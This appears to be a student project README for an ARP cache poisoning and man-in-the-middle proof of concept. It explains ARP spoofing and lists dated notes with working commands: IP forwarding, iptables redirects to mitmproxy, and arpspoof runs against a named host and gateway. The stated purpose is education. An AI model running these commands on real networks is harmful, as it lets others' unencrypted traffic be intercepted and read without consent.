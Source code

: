 # ARPCachePoisoningPOC

## Content
- Before start
- How to use

### Before start
- This project is just a POC for ARP Cache Poisoning attack and man-in-the-middle attack. For educational purposes only.
- It might not work correctly if your network envirement has any defense mechanical.
- Thanks for Gemini and Cursor. They have created such a wonderful web page.

### How to use
- 

## Aggressive behavior and knowledge description

- What is ARP Cache Poisoning
ARP Cache Poisoning aka ARP Spoofing. This tnechnical is that an adversary is trying to replace the router's mac address in victim's routing table.
If the adversary did it, the traffic which sent by victim will throught into  adversary's machine, then adversary can look all traffic from victim if there wasn't encrypted.

  - ARP(Address Resolution Protocol) in shortly:
    When a new computer join a LAN it want to send a message to other device, In addition to the IP address, the physical address, also known as the MAC Address, is also required.
    ARP handles this requirement. If there a computer(192.168.5.22) want to send a request to other computer(192.168.5.24). .22 device will make a broadcast request to all computer "What's the mac address of 192.168.5.24."
    When .24 receive this request will send its mac address for response.

    Howerver ARP is stateless protocol, so it is impossible to distinguish the response is correct or not. It cause the adversary has a chance to attack.
    The adversary can broadcast its personal mac address as the gateway, since all requests need to pass the gateway to WAN. Therefore if your router mac address be replaced to .24,
    all your requests will pass through .24 -> gateway -> WAN. If these requests are not encrypted, it gives adversary a opportunity to steal the data from your traffic.
    
     

- Against ARP Cache Poisoning

## Reference
1. https://www.fortinet.com/tw/resources/cyberglossary/what-is-arp
2. https://datatracker.ietf.org/doc/html/rfc826
3. https://ithelp.ithome.com.tw/m/articles/10363424

## Install requirements
`pip install -r requirements.txt`

### Venv(Options)
If your want to protect your computer envirement, using venv.
`python -m venv venv`
`./venv/Scripts/activate`
or
`source ./venv/Scripts/activate`
then
`pip install -r requirements.txt`

## Put mitm cert into your system
`mitmdump -s ./proxy/proxy.py`
After allowing traffic to pass through the proxy, connect to http://mitm.it. You can download a cert for your system.

## Run Web app

`python ./app/app.py`

## 0829

- Kali
  - sudo sysctl -w net.ipv4.ip_forward=1
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
  - mitmproxy -s ./proxy/proxy.py
  - python3 ./app/app.py
host: .60
iphone: .101
mitmproxy: .62
: 因為是透過 websocket 拿 mitmproxy 的東西然後放到前端，如果在 .62 以外的地方打開網頁會看不到 proxy 的流量，所以這邊可能要修改。
: 因為 https 沒有憑證不能解密，所以 mitmproxy 收到 https 時不能用，但是現在 proxy 因為通通攔截下來，所以受害者流量通過 https 時會直接攔截不到，導致網頁直接連不上，看看能不能改成只攔截 http。

## 0830
- sudo iptables -t nat -F
- sudo iptables -t nat -L -v -n
- sudo sysctl -w net.ipv4.ip_forward=1
- sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
- sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
- sudo arpspoof -i eth0 -t 192.168.1.60 192.168.1.1
- sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.60
- ./venv/bin/mitmdump -v -s ./proxy/proxy.py
- python ./app/app.py

- HTTPS 實際環境上應該抓不到，看看 Web 那端要不要改掉，然後可以用 Bettercap 對多個設備進行 arp spoofing

## 0902
- 已經大致把想做的功能做完，

## TODO
- Project 還需要把 README 調整好，然後嘗試使用 Bettercap 對網內的 IP 進行攻擊
- 可以嘗試看看有沒有機會做"防禦"相關內容 ?
- 弄成 Docker ?
- 攔截除了 HTTP 以外的流量

## MITMPROXY
- HTTPS 那邊


